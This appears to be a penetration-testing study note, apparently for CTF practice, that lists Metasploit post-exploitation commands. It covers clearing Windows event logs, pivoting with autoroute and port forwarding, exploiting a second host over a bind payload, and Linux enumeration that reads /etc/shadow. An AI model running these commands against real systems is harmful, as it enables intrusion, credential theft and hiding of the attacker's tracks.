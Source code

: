 Clearing event logs are crucially important. They are stored in the Event Viewer app.

We have 3 types of event logs: Application, Security, System logs.

- `meterpreter > clearev` - too simple?

Then deleting all uploaded files, etc.

### Pivoting:

After compromising a target host, beginning to attack another host, whose internal network is not available to us but our compromised target.

- `meterpreter > ipconfig` for Windows or ||`shell`, then `ifconfig` for Linux

*** WE will see another subnet or the same one again, but we cannot reach any of them (new subnet or the same one but with new ip)

- `meterpreter > **run autoroute** -s <2nd-target>/20` or `24` (for Linux) - only applicable to the MSF
- `meterpreter > bg`
- `msf6 > sessions -n victim-1 -i 1` - for naming
- `msf6 > use portscan/tcp`
    - `msf6 > set RHOSTS <2nd-target>`
    - `<ip>:80` - we discover port 80 (for example absolutely)
- `meterpreter > **portfwd add** -l 1080 -p 80 -r <2nd-target>`
- `nmap -p1080 -sCV <local_ip>`
- `msf6 > use exploit…`
    - `msf6 > set RHOSTS <2nd-target>`
    - `msf6 > set payload windows/meterpreter/bind_tcp`  - not reverse
    - `msf6 > set LPORT <lport>` - changing the local port because this is our second exploitation (the first one is used by our previous meterpreter session)

- `meterpreter > search -d C:\\Users\\Administrator -f *flag***`

## Linux

Local Enumeration:

- `meterpreter > getuid`, `sysinfo`
- `meterpreter > shell`
- `root@domain: cat /etc/passwd` - users in the server
- `root@domain: cat /etc/shadow` - password hashes of current users
- `root@domain: uname -a` - kernel info
- `root@domain: netstat -antp` - listening services in the system
- `root@domain: ps aux` - running processes
- `root@domain: env` - enviroment variables

- `meterpreter > use enum_configs` - config files enumeration
- `meterpreter > use gather/env`
- `meterpreter > use enum_network`
- `meterpreter > use enum_protections` - finds security mechanisms
- `meterpreter > use enum_system` - system info, users list, cron jobs, user history
- `meterpreter > use checkcontainer`
- `meterpreter > use checkvm`
- `meterpreter > enum_users_history`
